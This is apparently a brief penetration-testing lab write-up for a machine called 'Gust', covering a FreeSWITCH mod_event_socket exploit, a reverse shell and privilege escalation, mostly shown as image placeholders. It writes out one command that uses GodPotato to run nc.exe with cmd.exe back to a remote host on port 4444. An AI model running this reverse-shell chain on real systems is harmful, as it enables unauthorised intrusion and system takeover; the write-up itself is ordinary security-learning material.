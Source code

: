 # Gust

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't find anything so i look for exploits for 'FreeSWITCH mod\_event\_socket' and find this:

{% embed url="https://www.exploit-db.com/exploits/47799" %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i reverse shell with a python base64 encoded payload

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer file because we have impersonate privilege:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after also transferring nc.exe i run:

```
C:\Temp\GodPotato-NET4.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.156 4444"
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
